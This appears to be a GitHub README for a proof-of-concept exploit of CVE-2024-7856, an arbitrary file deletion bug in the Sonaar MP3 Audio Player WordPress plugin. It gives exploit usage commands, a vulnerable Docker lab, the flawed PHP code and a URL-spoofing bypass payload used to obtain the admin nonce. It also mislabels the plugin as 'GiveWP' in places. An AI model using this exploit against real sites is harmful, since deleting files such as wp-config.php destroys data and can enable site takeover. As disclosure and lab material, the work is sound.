


# CVE-2024-7856
★ CVE-2024-7856 Arbitrary File deletion PoC ★


## Description
**CVE-2024-7856** : MP3 Audio Player – Music Player, Podcast Player & Radio by Sonaar <= 5.7.0.1 – Missing Authorization to Authenticated (Subscriber+) Arbitrary File Deletion


**Researcher**: [Arkadiusz Hydzik](https://www.wordfence.com/threat-intel/vulnerabilities/researchers/arkadiusz-hydzik)


**description**: The MP3 Audio Player
 Music Player, Podcast Player & Radio by Sonaar plugin for WordPress is vulnerable to unauthorized arbitrary file deletion due to a missing capability check on the removeTempFiles() function and insufficient path validation on the 'file' parameter in all versions up to, and including, 5.7.0.1. This makes it possible for authenticated attackers, with subscriber-level access and above, to delete arbitrary files which can make remote code execution possible when wp-config.php is deleted.

## How to use

### Git clone
```
git clone https://github.com/l8BL/CVE-2024-7856.git
cd CVE-2024-7856
```
### Install packages 
```sh
pip install -r requirements.txt
```
### Command
```sh
# Arbitrary file deletion
python3 CVE-2024-7856.py -u <URL_TO_EXPLOIT> -f <FILE_TO_DELETE>
python3 CVE-2024-7856.py -u <URL_TO_EXPLOIT> -f <FILE_TO_DELETE> -i <USER_ID_TO_LOGIN> -p <USER_PW_TO_LOGIN>
```

### Example 
```sh
python3 CVE-2024-7856.py -u http://example.com/ -f /tmp/test
python3 CVE-2024-7856.py -u http://example.com/ -f /tmp/test -i EQSTtester -p q1w2e3r4t5y!
```

### Output
**CVE-2024-7856.py**



### Result



## Vulnerable Environment
### 1. docker-compose.yml
```sh
services:
  db:
    image: mysql:8.0.27
    command: '--default-authentication-plugin=mysql_native_password'
    restart: always
    environment:
      - MYSQL_ROOT_PASSWORD=somewordpress
      - MYSQL_DATABASE=wordpress
      - MYSQL_USER=wordpress
      - MYSQL_PASSWORD=wordpress
    expose:
      - 3306
      - 33060
  wordpress:
    image: wordpress:6.3.2
    ports:
      - 80:80
    restart: always
    environment:
      - WORDPRESS_DB_HOST=db
      - WORDPRESS_DB_USER=wordpress
      - WORDPRESS_DB_PASSWORD=wordpress
      - WORDPRESS_DB_NAME=wordpress
volumes:
  db_data:
```

### 2. Then download vulnerable GiveWP plugin:
https://downloads.wordpress.org/plugin/mp3-music-player-by-sonaar.5.7.zip

### 3. Unzip the GiveWP plugin zip file and copy the entire file to the “/var/www/html/wp-content/plugins” directory.
```sh
docker cp mp3-music-player-by-sonaar docker-wordpress-1:/var/www/html/wp-content/plugins
```


# Analysis
## Vulnerable point1 (includes/class-sonaar-music.php)
```
public function removeTempFiles(){
		// will unlink the temporary peak file and generate another one automatically.

		check_ajax_referer('sonaar_music_admin_ajax_nonce', 'nonce');
	
		$is_temp = filter_input(INPUT_POST, 'is_temp', FILTER_VALIDATE_BOOLEAN);
		$file = filter_input(INPUT_POST, 'file', FILTER_SANITIZE_STRING);
	
		if ($is_temp && $file) {
			$upload_dir = wp_get_upload_dir();
			
			$peaks_dir = $this->get_peak_dir();
	
			$file_path_temp = str_replace($upload_dir['baseurl'] . $this->get_peak_dir(true), $peaks_dir, $file);
	
			if (strpos($file_path_temp, $peaks_dir) === 0 && file_exists($file_path_temp)) {
				wp_delete_file($file_path_temp);
			}
		}
		
		
	}
```
## Vulnerable point2 (admin/class-sonaar-music-admin.php)
```
if (strpos($hook, SR_PLAYLIST_CPT . '_page_srmp3_settings_') === 0) {
            wp_enqueue_script( 'cmb2_image_select_metafield-js', plugin_dir_url( __FILE__ ) . 'library/cmb2-image-select-field-type/image_select_metafield.js' , '', '1.0.0', true );  // Used for plugin settings page only. it does not work on group repeater fields
            wp_enqueue_script( 'sonaar-music', plugin_dir_url( __DIR__ ) . 'public/js/sonaar-music-public.js', array( 'jquery' ), $this->version, true ); // used for peak generation
            wp_localize_script('sonaar-admin', 'sonaar_music', array(
                'plugin_version_free'=> SRMP3_VERSION,
                'plugin_version_pro'=> ( defined( 'SRMP3PRO_VERSION' ) ? SRMP3PRO_VERSION : 'Not Installed' ),
                'ajax' => array(
                    'ajax_url' => admin_url( 'admin-ajax.php' ),
                    'ajax_nonce' => wp_create_nonce( 'sonaar_music_admin_ajax_nonce' ),
                    'ajax_nonce_peaks' => wp_create_nonce( 'sonaar_music_ajax_peaks_nonce' ),
                ),
            ));
            

        }
```


## Bypass technique
**'Spoof'ing a path** : /wp-admin/index.php/%0a/wp-admin/sr_playlist_page_srmp3_settings_


# Attack Scenario

## Arbitrary File deletion 
With authorized User, you can exploit the arbitrary file deletion.

# Disclaimer
This repository is not intended to be Arbitrary file deletion exploit to CVE-2024-7856. The purpose of this project is to help people learn about this vulnerability, and perhaps test their own applications.

# Reference
https://www.wordfence.com/blog/2024/09/critical-arbitrary-file-deletion-vulnerability-in-mp3-audio-player-wordpress-plugin-affects-over-20000-sites/
